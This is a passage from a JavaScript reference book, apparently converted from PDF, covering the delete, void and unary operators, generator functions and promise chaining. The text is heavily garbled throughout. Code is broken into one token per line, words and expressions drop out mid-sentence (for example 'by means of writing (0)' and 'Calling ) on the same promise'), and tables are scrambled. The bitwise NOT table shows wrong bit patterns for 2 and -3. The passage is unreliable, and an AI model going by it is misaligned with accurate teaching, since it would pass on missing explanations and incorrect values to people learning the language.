;

**typeof**

Symbol.

iterator

;

## Section 40.3: The delete operator

The **delete** operator deletes a property from an object.
>
**Syntax:**

**delete**

object.

property

**delete**

object

\[

\'property\'

\]

**Returns:**
>
If deletion is successful, or the property did not exist:
>
**true**
>
If the property to be deleted is an own non-configurable property
(can\'t be deleted):
>
**false** in non-strict mode.
>
Throws an error in strict mode
>
**Description**
>
The **delete** operator does not directly free memory. It can
indirectly free memory if the operation means all references to the
property are gone.
>
**delete** works on an object\'s properties. If a property with the
same name exists on the object\'s prototype chain, the property will
be inherited from the prototype. **delete** does not work on variables
or function names.
>
**Examples:**

*// Deleting a property*

foo

=

1

;

*// a global variable is a property of \`window\`: \`window.foo\`*

**delete**

foo

;

*// true*

console.

log

(

foo

)

;

*// Uncaught ReferenceError: foo is not defined*

*// Deleting a variable*

**var**

foo

=

1

;

**delete**

foo

;

*// false*

console.

log

(

foo

)

;

*// 1 (Not deleted)*

*// Deleting a function*

**function**

foo

(

)

{

}

;

**delete**

foo

;

*// false*

console.

log

(

foo

)

;

*// function foo(){ } (Not deleted)*

*// Deleting a property*

**var**

foo

=

{

bar

:

\"42\"

}

;

**delete**

foo.

bar

;

*// true*

console.

log

(

foo

)

;

*// Object { } (Deleted bar)*

*// Deleting a property that does not exist*

**var**

foo

=

{

}

;

**delete**

foo.

bar

;

*// true*

console.

log

(

foo

)

;

*// Object { } (No errors, nothing deleted)*

*// Deleting a non-configurable property of a predefined object*

**delete**

Math

.

PI

;

*// false ()*

console.

log

(

Math

.

PI

)

;

*// 3.141592653589793 (Not deleted)*

## Section 40.4: The unary plus operator (+)

The unary plus (+) precedes its operand *and evaluates* to its
operand. It attempts to convert the operand to a number, if it isn\'t
already.
>
**Syntax:**
>
+expression **Returns:** a Number. **Description**
>
The unary plus (+) operator is the fastest (and preferred) method of
converting something into a number.
>
It can convert:
>
string representations of integers (decimal or hexadecimal) and
floats.
>
booleans: **true**, **false**.
>
**null**
>
Values that can\'t be converted will evaluate to **NaN**.
>
**Examples:**

\+

42

*// 42*

\+

\"42\"

*// 42*

\+

**true**

*// 1*

\+

**false**

*// 0*

\+

**null**

*// 0*

\+

**undefined**

*// NaN*

\+

**NaN**

*// NaN*

\+

\"foo\"

*// NaN*

\+

{

}

*// NaN*

\+

**function**

(

)

{

}

*// NaN*

Note that attempting to convert an array can result in unexpected
return values. In the background, arrays are first converted to their
string representations:

\[

\]

.

toString

(

)

===

\'\'

;

\[

1

\]

.

toString

(

)

===

\'1\'

;

\[

1

,

2

\]

.

toString

(

)

===

\'1,2\'

;

The operator then attempts to convert those strings to numbers:

\+

\[

\]

*// 0 ( === +\'\' )*

\+

\[

1

\]

*// 1 ( === +\'1\' )*

\+

\[

1

,

2

\]

*// NaN ( === +\'1,2\' )*

## Section 40.5: The void operator

The **void** operator evaluates the given expression and then returns
**undefined**.
>
**Syntax:**

**void**

expression

**Returns:**
>
**undefined Description**

  -
  **void**                    0 or                  **void**
    -

  -

The **void** operator is often used to obtain the **undefined**
primitive value, by means of writing (0). Note that **void** is an
operator, not a function, so () is not required.
>
Usually the result of a **void** expression and **undefined** can be
used interchangeably.

  
  window.**undefined**
  

  

However, in older versions of ECMAScript, could be assigned any value,
and it is still possible to use **undefined** as name for function
parameters variables inside functions, thus disrupting other code that
relies on the value of **undefined**. **void** will always yield the
*true* **undefined** value though.

  
  **void**
  

  

  
  window.**undefined**
  

  

0 is also commonly used in code minification as a shorter way of
writing **undefined**. In addition, it\'s probably safer as some other
code could\'ve tampered with .
>
**Examples:**

Returning

**undefined**

:

**function**

foo

(

)

{

**return**

**void**

0

;

}

console.

log

(

foo

(

)

)

;

*// undefined*

Changing the value of **undefined** inside a certain scope:

(

**function**

(

**undefined**

)

{

**var**

str

=

\'foo\'

;

console.

log

(

str

===

**undefined**

)

;

*// true*

}

)

(

\'foo\'

)

;

## Section 40.6: The unary negation operator (-)

The unary negation (-) precedes its operand and negates it, after
trying to convert it to number.
>
**Syntax:**

-expression **Returns:** a Number.

**Description**
>
The unary negation (-) can convert the same types / values as the
unary plus (+) operator can.

  
  **NaN**
  

  

Values that can\'t be converted will evaluate to **NaN** (there is no
-).
>
**Examples:**

\-

42

*// -42*

\-

\"42\"

*// -42*

\-

**true**

*// -1*

\-

**false**

*// -0*

\-

**null**

*// -0*

\-

**undefined**

*// NaN*

\-

**NaN**

*// NaN*

\-

\"foo\"

*// NaN*

\-

{

}

*// NaN*

\-

**function**

(

)

{

}

*// NaN*

Note that attempting to convert an array can result in unexpected
return values. In the background, arrays are first converted to their
string representations:

\[

\]

.

toString

(

)

===

\'\'

;

\[

1

\]

.

toString

(

)

===

\'1\'

;

\[

1

,

2

\]

.

toString

(

)

===

\'1,2\'

;

The operator then attempts to convert those strings to numbers:

\-

\[

\]

*// -0 ( === -\'\' )*

\-

\[

1

\]

*// -1 ( === -\'1\' )*

\-

\[

1

,

2

\]

*// NaN ( === -\'1,2\' )*

## Section 40.7: The bitwise NOT operator (\~)

The bitwise NOT (\~) performs a NOT operation on each bit in a value.
>
**Syntax:**

\~expression **Returns:**

a Number.
>
**Description**
>
The truth table for the NOT operation is:
>
**a NOT a**

0

1

1

0

1337

(

base

10

)

=

0000010100111001

(

base

2

)

\~

1337

(

base

10

)

=

1111101011000110

(

base

2

)

=

\-

1338

(

base

10

)

A bitwise not on a number results in:

\-

(

x

\+

1

)

.

**Examples: value (base 10) value (base 2) return (base 2) return
(base 10)**

  
  2                       00000010              11111100                -3
     
  1                       00000001              11111110                -2

  0                       00000000              11111111                -1

  -1                      11111111              00000000                0

  -2                      11111110              00000001                1

  -3                      11111100              00000010                2
  

## Section 40.8: The logical NOT operator (!)

The logical NOT (!) operator performs logical negation on an
expression.
>
**Syntax:**

!expression **Returns:** a Boolean.

**Description**
>
The logical NOT (!) operator performs logical negation on an
expression.

  
  **true** === **false**        and !       **false** === **true**
    

  

Boolean values simply get inverted: !.
>
Non-boolean values get converted to boolean values first, then are
negated.
>
This means that a double logical NOT (!!) can be used to cast any
value to a boolean:

!!

\"FooBar\"

===

**true**

!!

1

===

**true**

!!

0

===

**false**

  
  **true**
  

  

These are all equal to !:

!

\'true\'

===

!

**new**

Boolean

(

\'true\'

)

;

!

\'false\'

===

!

**new**

Boolean

(

\'false\'

)

;

!

\'FooBar\'

===

!

**new**

Boolean

(

\'FooBar\'

)

;

!

\[

\]

===

!

**new**

Boolean

(

\[

\]

)

;

!

{

}

===

!

**new**

Boolean

(

{

}

)

;

These are all equal to

!

**false**

:

!

0

===

!

**new**

Boolean

(

0

)

;

!

\'\'

===

!

**new**

Boolean

(

\'\'

)

;

!

**NaN**

===

!

**new**

Boolean

(

**NaN**

)

;

!

**null**

===

!

**new**

Boolean

(

**null**

)

;

!

**undefined**

===

!

**new**

Boolean

(

**undefined**

)

;

**Examples:**

!

**true**

*// false*

!-

1

*// false*

!

\"-1\"

*// false*

!

42

*// false*

!

\"42\"

*// false*

!

\"foo\"

*// false*

!

\"true\"

*// false*

!

\"false\"

*// false*

!

{

}

*// false*

!

\[

\]

*// false*

!

**function**

(

)

{

}

*// false*

!

**false**

*// true*

!

**null**

*// true*

!

**undefined**

*// true*

!

**NaN**

*// true*

!

0

*// true*

!

\"\"

*// true*

# Chapter 41: Generators

  
  **function**
  

  

Generator functions (defined by the \* keyword) run as coroutines,
generating a series of values as they\'re requested through an
iterator.

## Section 41.1: Generator Functions

  
  **function**
  

  

A *generator function* is created with a \* declaration. When it is
called, its body is **not** immediately executed. Instead, it returns
a *generator object*, which can be used to \"step through\" the
function\'s execution.
>
A yield expression inside the function body defines a point at which
execution can suspend and resume.

**function**

\*

nums

(

)

{

console.

log

(

\'starting\'

)

;

*// A*

yield

1

;

*// B*

console.

log

(

\'yielded 1\'

)

;

*// C*

yield

2

;

*// D*

console.

log

(

\'yielded 2\'

)

;

*// E*

yield

3

;

*// F*

console.

log

(

\'yielded 3\'

)

;

*// G*

}

**var**

generator

=

nums

(

)

;

*// Returns the iterator. No code in nums is executed*

generator.

next

(

)

;

*// Executes lines A,B returning { value: 1, done: false }*

*// console: \"starting\"*

generator.

next

(

)

;

*// Executes lines C,D returning { value: 2, done: false }*

*// console: \"yielded 1\"*

generator.

next

(

)

;

*// Executes lines E,F returning { value: 3, done: false }*

*// console: \"yielded 2\"*

generator.

next

(

)

;

*// Executes line G returning { value: undefined, done: true }*

*// console: \"yielded 3\"*

**Early iteration exit**
>
generator = nums(); generator.next(); *// Executes lines A,B returning
{ value: 1, done: false }* generator.next(); *// Executes lines C,D
returning { value: 2, done: false }* generator.**return**(3); *// no
code is executed returns { value: 3, done: true }*
>
*// any further calls will return done = true*
>
generator.next(); *// no code executed returns { value: undefined,
done: true }*
>
**Throwing an error to generator function**

**function**

\*

nums

(

)

{

**try**

{

yield

1

;

*// A*

yield

2

;

*// B*

yield

3

;

*// C*

}

**catch**

(

e

)

{

console.

log

(

e\.

message

)

;

*// D*

}

}

**var**

generator

=

nums

(

)

;

generator.

next

(

)

;

*// Executes line A returning { value: 1, done: false }*

generator.

next

(

)

;

*// Executes line B returning { value: 2, done: false }*

generator.

**throw**

(

**new**

Error

(

\"Error!!\"

)

)

;

*// Executes line D returning { value: undefined, done: true}*

*// console: \"Error!!\"*

generator.

next

(

)

;

*// no code executed. returns { value: undefined, done: true }*

## Section 41.2: Sending Values to Generator

  
  next()
  

  

It is possible to *send* a value to the generator by passing it to the
method.

**function**

\*

summer

(

)

{

**let**

sum

=

0

,

value

;

while

(

**true**

)

{

*// receive sent value*

value

=

yield

;

**if**

(

value

===

**null**

)

**break**

;

*// aggregate values*

sum

+=

value

;

}

**return**

sum

;

}

**let**

generator

=

summer

(

)

;

*// proceed until the first \"yield\" expression, ignoring the \"value\"
argument*

generator.

next

(

)

;

*// from this point on, the generator aggregates values until we send
\"null\"*

generator.

next

(

1

)

;

generator.

next

(

10

)

;

generator.

next

(

100

)

;

*// close the generator and collect the result*

**let**

sum

=

generator.

next

(

**null**

)

.

value

;

*// 111*

## Section 41.3: Delegating to other Generator

  
  yield\*
  

  

From within a generator function, the control can be delegated to
another generator function using .

**function**

\*

g1

(

)

{

yield

2

;

yield

3

;

yield

4

;

}

**function**

\*

g2

(

)

{

yield

1

;

yield

\*

g1

(

)

;

yield

5

;

}

**var**

it

=

g2

(

)

;

console.

log

(

it.

next

(

)

)

;

*// 1*

console.

log

(

it.

next

(

)

)

;

*// 2*

console.

log

(

it.

next

(

)

)

;

*// 3*

console.

log

(

it.

next

(

)

)

;

*// 4*

console.

log

(

it.

next

(

)

)

;

*// 5*

console.

log

(

it.

next

(

)

)

;

*// undefined*

## Section 41.4: Iteration

  
  **for**\...of
  

  

A generator is *iterable*. It can be looped over with a statement, and
used in other constructs which depend on the iteration protocol.

**function**

\*

range

(

n

)

{

**for**

(

**let**

i

=

0

;

i

\<

n

;

++

i

)

{

yield i

;

}

}

*// looping*

**for**

(

**let**

n of range

(

10

)

)

{

*// n takes on the values 0, 1, \... 9*

}

*// spread operator*

**let**

nums

=

\[

\...

range

(

3

)

\]

;

*// \[0, 1, 2\]*

**let**

max

=

Math

.

max

(

\...

range

(

100

)

)

;

*// 99*

  
  **function**
  

  

Here is another example of use generator to custom iterable object in
ES6. Here anonymous generator function \* used.

**let**

user

=

{

name

:

\"sam\"

,

totalReplies

:

17

,

isBlocked

:

**false**

}

;

user

\[

Symbol.

iterator

\]

=

**function**

\*

(

)

{

**let**

properties

=

Object

.

keys

(

**this**

)

;

**let**

count

=

0

;

**let**

isDone

=

**false**

;

**for**

(

**let**

p of properties

)

{

yield

**this**

\[

p

\]

;

}

}

;

**for**

(

**let**

p of user

)

{

console.

log

(

p

)

;

}

## Section 41.5: Async flow with generators

Generators are functions which are able to pause and then resume
execution. This allows to emulate async functions using external
libraries, mainly q or co. Basically it allows to write functions that
wait for async results in order to go on:

**function**

someAsyncResult

(

)

{

**return**

Promise.

resolve

(

\'newValue\'

)

}

q\.

spawn

(

**function**

\*

(

)

{

**var**

result

=

yield someAsyncResult

(

)

console.

log

(

result

)

*// \'newValue\'*

}

)

This allows to write async code as if it were synchronous. Moreover,
try and catch work over several async blocks. If the promise is
rejected, the error is caught by the next catch:

**function**

asyncError

(

)

{

**return**

**new**

Promise

(

**function**

(

resolve

,

reject

)

{

setTimeout

(

**function**

(

)

{

reject

(

**new**

Error

(

\'Something went wrong\'

)

)

}

,

100

)

}

)

}

q\.

spawn

(

**function**

\*

(

)

{

**try**

{

**var**

result

=

yield asyncError

(

)

}

**catch**

(

e

)

{

console.

error

(

e

)

*// Something went wrong*

}

}

)

Using co would work exactly the same but with

co

(

**function**

\*

(

)

{

\...

}

)

instead of

q\.

spawn

## Section 41.6: Iterator-Observer interface

A generator is a combination of two things - an Iterator and an
Observer.
>
**Iterator**
>
An iterator is something when invoked returns an iterable. An iterable
is something you can iterate upon. From ES6/ES2015 onwards, all
collections (Array, Map, Set, WeakMap, WeakSet) conform to the
Iterable contract.

A generator(iterator) is a producer. In iteration the consumer PULLs the
value from the producer.

Example:

**function**

\*

gen

(

)

{

yield

5

;

yield

6

;

}

**let**

a

=

gen

(

)

;

  
  a.next
  

  

  
  a.next
  

  

Whenever you call (), you\'re essentially pull-ing value from the
Iterator and pause the execution at yield. The next time you call (),
the execution resumes from the previously paused state.
>
**Observer**
>
A generator is also an observer using which you can send some values
back into the generator.

**function**

\*

gen

(

)

{

document.

write

(

\'\<br\>observer:\'

,

yield

1

)

;

}

**var**

a

=

gen

(

)

;

**var**

i

=

a\.

next

(

)

;

while

(

!

i\.

done

)

{

document.

write

(

\'\<br\>iterator:\'

,

i\.

value

)

;

i

=

a\.

next

(

100

)

;

}

  
  yield
  

  

  
  a.next
  

  

Here you can see that 1 is used like an expression which evaluates to
some value. The value it evaluates to is the value sent as an argument
to the function call.

  
  i.value
  

  

  -
  a.next                                     (       100
  - - 

  -

So, for the first time will be the first value yielded (1), and when
continuing the iteration to the next state, we send a value back to
the generator using ).
>
**Doing async with Generators**
>
Generators are widely used with spawn (from taskJS or co) function,
where the function takes in a generator and allows us to write
asynchronous code in a synchronous fashion. This does NOT mean that
async code is converted to sync code / executed synchronously. It
means that we can write code that looks like sync but internally it is
still async.
>
Sync is BLOCKING; Async is WAITING. Writing code that blocks is easy.
When PULLing, value appears in the assignment position. When PUSHing,
value appears in the argument position of the callback.
>
When you use iterators, you PULL the value from the producer. When you
use callbacks, the producer PUSHes the value to the argument position
of the callback.

**var**

i

=

a\.

next

(

)

*// PULL*

dosomething

(

\...

,

v

=\>

{

\...

}

)

*// PUSH*

  
  a.next       () and in the second,                   v =\     {   \...
    -  

  

Here, you pull the value from } is the callback and a value is PUSHed
into the argument position v of the callback function.
>
Using this pull-push mechanism, we can write async programming like
this,

**let**

delay

=

t

=\>

**new**

Promise

(

r

=\>

setTimeout

(

r

,

t

)

)

;

spawn

(

**function**

\*

(

)

{

*// wait for 100 ms and send 1*

**let**

x

=

yield delay

(

100

)

.

then

(

(

)

=\>

1

)

;

console.

log

(

x

)

;

*// 1*

*// wait for 100 ms and send 2*

**let**

y

=

yield delay

(

100

)

.

then

(

(

)

=\>

2

)

;

console.

log

(

y

)

;

*// 2*

}

)

;

So, looking at the above code, we are writing async code that looks
like it\'s blocking (the yield statements wait for 100ms and then
continue execution), but it\'s actually waiting. The pause and resume
property of generator allows us to do this amazing trick.
>
**How does it work ?**
>
The spawn function uses yield promise to PULL the promise state from
the generator, waits till the promise is resolved, and PUSHes the
resolved value back to the generator so it can consume it.
>
**Use it now**
>
So, with generators and spawn function, you can clean up all your
async code in NodeJS to look and feel like it\'s synchronous. This
will make debugging easy. Also the code will look neat.

  
  async\...await
  

  

This feature is coming to future versions of JavaScript - as . But you
can use them today in
>
ES2015/ES6 using the spawn function defined in the libraries - taskjs,
co, or bluebird

# Chapter 42: Promises

## Section 42.1: Introduction

A
[Promise](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise)
object represents an operation which *has produced or will eventually
produce* a value. Promises provide a robust way to wrap the (possibly
pending) result of asynchronous work, mitigating the problem of deeply
nested callbacks (known as \"[callback
hell](http://callbackhell.com/)\").
>
**States and control flow**
>
A promise can be in one of three states:
>
*pending*  The underlying operation has not yet completed, and the
promise is *pending* fulfillment.
>
*fulfilled*  The operation has finished, and the promise is
*fulfilled* with a *value*. This is analogous to returning a value
from a synchronous function.
>
*rejected*  An error has occurred during the operation, and the
promise is *rejected* with a *reason*. This is analogous to throwing
an error in a synchronous function.
>
A promise is said to be *settled* (or *resolved*) when it is either
fulfilled or rejected. Once a promise is settled, it becomes
immutable, and its state cannot change. The
[then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
and
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
methods of a promise can be used to attach callbacks that execute when
it is settled. These callbacks are invoked with the fulfillment value
and rejection reason, respectively.

{width="7.477777777777778in"
height="1.9819444444444445in"}

**Example**

**const**

promise

=

**new**

Promise

(

(

resolve

,

reject

)

=\>

{

*// Perform some work (possibly asynchronous)*

*// \...*

**if**

(

*/\* Work has successfully finished and produced \"value\" \*/*

)

{

resolve

(

value

)

;

}

**else**

{

*// Something went wrong because of \"reason\"*

*// The reason is traditionally an Error object, although*

*// this is not required or enforced.*

**let**

reason

=

**new**

Error

(

message

)

;

reject

(

reason

)

;

*// Throwing an error also rejects the promise.*

**throw**

reason

;

}

}

)

;

The
[then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
and
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
methods can be used to attach fulfillment and rejection callbacks:

promise.

then

(

value

=\>

{

*// Work has completed successfully,*

*// promise has been fulfilled with \"value\"*

}

)

.

**catch**

(

reason

=\>

{

*// Something went wrong,*

*// promise has been rejected with \"reason\"*

}

)

;

  
  promise.then           (   \...   ) and     promise.**catch**        (   \...
  -    -  

  

**Note:** Calling ) on the same promise might result in an Uncaught
>
exception **in** Promise if an error occurs, either while executing
the promise or inside one of the callbacks, so the preferred way would
be to attach the next listener on the promise returned by the previous
then / **catch**.
>
Alternatively, both callbacks can be attached in a single call to
[then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then):

promise.

then

(

onFulfilled

,

onRejected

)

;

Attaching callbacks to a promise that has already been settled will
immediately place them in the [microtask
queue](http://stackoverflow.com/a/25933985/5931915), and they will be
invoked \"as soon as possible\" (i.e. immediately after the currently
executing script). It is not necessary to check the state of the
promise before attaching callbacks, unlike with many other
event-emitting implementations.

[Live demo](https://jsfiddle.net/SO_AMK/sy8s7a3a/)

## Section 42.2: Promise chaining

The

[the]{.underline}

[n](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)

method of a promise returns a new promise.

**const**

promise

=

**new**

Promise

(

resolve

=\>

setTimeout

(

resolve

,

5000

)

)

;

promise

*// 5 seconds later*

.

then

(

(

)

=\>

2

)

*// returning a value from a then callback will cause*

*// the new promise to resolve with this value*

.

then

(

value

=\>

{

*/\* value === 2 \*/*

}

)

;

Returning a
[Promise](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise)
from a
[then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
callback will append it to the promise chain.

**function**

wait

(

millis

)

{

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

resolve

,

millis

)

)

;

}

**const**

p

=

wait

(

5000

)

.

then

(

(

)

=\>

wait

(

4000

)

)

.

then

(

(

)

=\>

wait

(

1000

)

)

;

p\.

then

(

(

)

=\>

{

*/\* 10 seconds have passed \*/*

}

)

;

A
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
allows a rejected promise to recover, similar to how **catch** in a
**try**/**catch** statement works. Any chained
[then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
after a
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
will execute its resolve handler using the value resolved from the
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch).
>
**const** p = **new** Promise(resolve =\{**throw** \'oh no\'});
>
p.**catch**(() =\\'oh yes\').then(console.log.bind(console)); *//
outputs \"oh yes\"*
>
If there are no
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
or reject handlers in the middle of the chain, a
[**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
at the end will capture any rejection in the chain:

p\.

**catch**

(

(

)

=\>

Promise.

reject

(

\'oh yes\'

)

)

.

then

(

console.

log

.

bind

(

console

)

)

*// won\'t be called*

.**catch**(console.error.bind(console)); *// outputs \"oh yes\"*
>
On certain occasions, you may want to \"branch\" the execution of the
functions. You can do it by returning different promises from a
function depending on the condition. Later in the code, you can merge
all of these branches into one to call other functions on them and/or
to handle all errors in one place.

promise

.

then

(

result

=\>

{

**if**

(

result.

condition

)

{

**return**

handlerFn1

(

)

.

then

(

handlerFn2

)

;

}

**else**

**if**

(

result.

condition2

)

{

**return**

handlerFn3

(

)

.

then

(

handlerFn4

)

;

}

**else**

{

**throw**

**new**

Error

(

\"Invalid result\"

)

;

}

}

)

.

then

(

handlerFn5

)

.

**catch**

(

err

=\>

{

console.

error

(

err

)

;

}

)

;

Thus, the execution order of the functions looks like:
>
promise \\handlerFn1 -\handlerFn2 \\handlerFn5 \~\~\>
.**catch**()
>
\| \^
>
V \|
>
-\handlerFn3 -\handlerFn4 -\^
>
The single **catch** will get the error on whichever branch it may
occur.

## Section 42.3: Waiting for multiple concurrent promises

  
  [Promise.all](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/all)
  

  

The
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/all)
static method accepts an iterable (e.g. an Array) of promises and
returns a new promise, which resolves when **all** promises in the
iterable have resolved, or rejects if **at least one** of the promises
in the iterable have rejected.

*// wait \"millis\" ms, then resolve with \"value\"*

**function**

resolve

(

value

,

milliseconds

)

{

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

value

)

,

milliseconds

)

)

;

}

*// wait \"millis\" ms, then reject with \"reason\"*

**function**

reject

(

reason

,

milliseconds

)

{

**return**

**new**

Promise

(

(

\_

,

reject

)

=\>

setTimeout

(

(

)

=\>

reject

(

reason

)

,

milliseconds

)

)

;

}

Promise.

all

(

\[

resolve

(

1

,

5000

)

,

resolve

(

2

,

6000

)

,

resolve

(

3

,

7000

)

\]

)

.

then

(

values

=\>

console.

log

(

values

)

)

;

*// outputs \"\[1, 2, 3\]\" after 7 seconds.*

Promise.

all

(

\[

resolve

(

1

,

5000

)

,

reject

(

\'Error!\'

,

6000

)

,

resolve

(

2

,

7000

)

\]

)

.

then

(

values

=\>

console.

log

(

values

)

)

*// does not output anything*

.**catch**(reason =\console.log(reason)); *// outputs \"Error!\"
after 6 seconds.*
>
Non-promise values in the iterable are \"promisified\".

Promise.

all

(

\[

resolve

(

1

,

5000

)

,

resolve

(

2

,

6000

)

,

{

hello

:

3

}

\]

)

.

then

(

values

=\>

console.

log

(

values

)

)

;

*// outputs \"\[1, 2, { hello: 3 }\]\" after 6 seconds*

Destructuring assignment can help to retrieve results from multiple
promises.

Promise.

all

(

\[

resolve

(

1

,

5000

)

,

resolve

(

2

,

6000

)

,

resolve

(

3

,

7000

)

\]

)

.

then

(

(

\[

result1

,

result2

,

result3

\]

)

=\>

{

console.

log

(

result1

)

;

console.

log

(

result2

)

;

console.

log

(

result3

)

;

}

)

;

## Section 42.4: Reduce an array to chained promises

This design pattern is useful for generating a sequence of
asynchronous actions from a list of elements.
>
There are two variants :
>
the \"then\" reduction, which builds a chain that continues as long as
the chain experiences success.
>
the \"catch\" reduction, which builds a chain that continues as long
as the chain experiences error.
>
**The \"then\" reduction**

  -
  [then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
  -

  -

This variant of the pattern builds a
[.()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
chain, and might be used for chaining animations, or making a sequence
of dependent HTTP requests.

\[

1

,

3

,

5

,

7

,

9

\]

.

reduce

(

(

seq

,

n

)

=\>

{

**return**

seq.

then

(

(

)

=\>

{

console.

log

(

n

)

;

**return**

**new**

Promise

(

res

=\>

setTimeout

(

res

,

1000

)

)

;

}

)

;

}

,

Promise.

resolve

(

)

)

.

then

(

(

)

=\>

console.

log

(

\'done\'

)

,

(

e

)

=\>

console.

log

(

e

)

)

;

*// will log 1, 3, 5, 7, 9, \'done\' in 1s intervals*

Explanation:

  
  [reduce](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)   [Promise.resolve](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/resolve)
                                                                                                            on a source array, and provide                                                                        
   - 

  

1.  We call
    [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/resolve)
    as an initial value.

  -
  [then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
  -

  -

2.  Every element reduced will add a
    [.()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
    to the initial value.

  
  [reduce](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)
  

  

3.[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)\'s
product will be Promise.resolve().then(\...).then(\...).

  
  [then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [(](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [successHandler](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [,](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [errorHandler](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
  -  -  -

  

4\. We manually append a
[.)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
after the reduce, to execute successHandler once all the previous
steps have resolved. If any step was to fail, then errorHandler would
execute.

  
  Promise.all
  

  

Note: The \"then\" reduction is a sequential counterpart of ().
>
**The \"catch\" reduction**

  
  [**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
  

  

This variant of the pattern builds a
[.()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
chain and might be used for sequentially probing a set of web servers
for some mirrored resource until a working server is found.

**var**

working_resource

=

5

;

*// one of the values from the source array*

\[

1

,

3

,

5

,

7

,

9

\]

.

reduce

(

(

seq

,

n

)

=\>

{

**return**

seq.

**catch**

(

(

)

=\>

{

console.

log

(

n

)

;

**if**

(

n

===

working_resource

)

{

*// 5 is working*

**return**

**new**

Promise

(

(

resolve

,

reject

)

=\>

setTimeout

(

(

)

=\>

resolve

(

n

)

,

1000

)

)

;

}

**else**

{

*// all other values are not working*

**return**

**new**

Promise

(

(

resolve

,

reject

)

=\>

setTimeout

(

reject

,

1000

)

)

;

}

}

)

;

}

,

Promise.

reject

(

)

)

.

then

(

(

n

)

=\>

console.

log

(

\'success at: \'

\+

n

)

,

(

)

=\>

console.

log

(

\'total failure\'

)

)

;

*// will log 1, 3, 5, \'success at 5\' at 1s intervals*

Explanation:

  
  [reduce](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)   [Promise.reject](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/reject)
                                                                                                            on a source array, and provide                                                                        
   - 

  

1.  We call
    [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/reject)
    as an initial value.

  
  [**catch**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
  

  

2.  Every element reduced will add a
    [.()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/catch)
    to the initial value.

  
